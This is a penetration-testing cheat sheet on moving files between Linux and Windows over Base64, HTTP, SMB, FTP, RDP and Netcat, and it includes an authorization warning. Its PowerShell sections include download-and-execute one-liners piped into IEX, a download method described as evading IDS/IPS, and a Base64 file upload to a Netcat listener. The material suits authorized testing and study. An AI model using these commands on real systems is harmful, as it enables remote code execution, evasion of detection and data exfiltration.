




## Introduction

File transfer is an essential skill in system administration, penetration testing, and cybersecurity. During security assessments, files often need to move between Linux and Windows systems to exchange tools, scripts, logs, and other resources.

This page covers common methods for transferring files to and from **Windows**, including Base64 encoding, HTTP/HTTPS, SMB, FTP, RDP, and Netcat, using tools such as Bash, PowerShell, and Impacket. It ends with integrity verification using MD5 hashes.

<Warning>
  Only use these techniques against systems you own or have explicit authorization to test. Practise in authorized lab environments.
</Warning>

## Download methods

### Base64

<Steps>
  <Step title="Encode on Linux">
    Encode the file with Bash (or [CyberChef](https://gchq.github.io/CyberChef/)):

    ```sh
    cat file_name | base64 -w 0; echo
    ```

    
  </Step>
  <Step title="Decode on Windows">
    Decode the string with PowerShell:

    ```powershell
    [IO.File]::WriteAllBytes("file_path", [Convert]::FromBase64String("base64_code"))
    ```
  </Step>
</Steps>

### HTTP/HTTPS

Start a Python web server on your Kali Linux machine:

```sh
sudo /venv/bin/python3 -m http.server 80
```

Then download the file on Windows with PowerShell:

```powershell
# Download a file
(New-Object Net.WebClient).DownloadFile('http://ip/file_name', 'C:\PATH')

# Download asynchronously to help evade IDS/IPS detection
(New-Object Net.WebClient).DownloadFileAsync('http://ip/file', 'C:\PATH')

# Download with Invoke-WebRequest
Invoke-WebRequest http://ip/file -OutFile file_name

# Download and execute in memory (bypasses the browser engine)
Invoke-WebRequest http://ip/file -UseBasicParsing | IEX
```



### SMB

<Tabs>
  <Tab title="Without credentials">
    ```sh
    # On Linux
    sudo impacket-smbserver share -smb2support .
    ```

    ```powershell
    # On Windows
    copy \\192.168.220.133\share_name\file_name
    ```
  </Tab>
  <Tab title="With username and password">
    <Note>
      Newer versions of Windows require authentication, so set a username and password.
    </Note>

    ```sh
    # On Linux
    impacket-smbserver share_name -smb2support /share_path -user test -password test
    ```

    ```powershell
    # On Windows, mount the share
    net use n: \\ip\share_name /user:test test
    ```
  </Tab>
</Tabs>

### FTP

Install and start the FTP service on Linux:

```sh
sudo /venv/bin/pip3 install pyftpdlib
sudo /venv/bin/python3 -m pyftpdlib --port 21
```

Then log in to FTP from the Windows command prompt to retrieve files.



### RDP

Mount a local drive over RDP to transfer files:

```sh
xfreerdp /v:ip /d:domain /u:username /p:'password' /drive:drive_name,/PATH_file
```

## Upload methods

### Web interface

<Steps>
  <Step title="Install uploadserver on Linux">
    ```sh
    sudo /venv/bin/pip3 install uploadserver
    sudo /venv/bin/python3 -m uploadserver
    ```
  </Step>
  <Step title="Install the upload helper on Windows">
    ```powershell
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
    ```
  </Step>
  <Step title="Upload the file to Linux">
    ```powershell
    Invoke-FileUpload -Uri http://ip:8000/upload -File C:\PATH
    ```
  </Step>
</Steps>

### Base64 and Netcat

```sh
# Start the Netcat listener on Linux
netcat -lnvp 8000
```

```powershell
# Encode the file to Base64 on Windows
$b64 = [System.Convert]::ToBase64String((Get-Content -Path 'C:\PATH' -Encoding Byte))

# Send the data to Linux
Invoke-WebRequest -Uri http://ip:8000/ -Method POST -Body $b64
```

### FTP

Install and start the FTP service on Linux with write access:

```sh
sudo /venv/bin/pip3 install pyftpdlib
sudo /venv/bin/python3 -m pyftpdlib --port 21 --write
```

Then log in to FTP from the Windows command prompt to upload files.



## Integrity

Use an MD5 hash to confirm no data was dropped during transfer. The hashes should match on both sides.

```sh
# On Linux
md5sum file_name
```

```powershell
# On Windows
Get-FileHash 'C:\file_path' -Algorithm md5
```
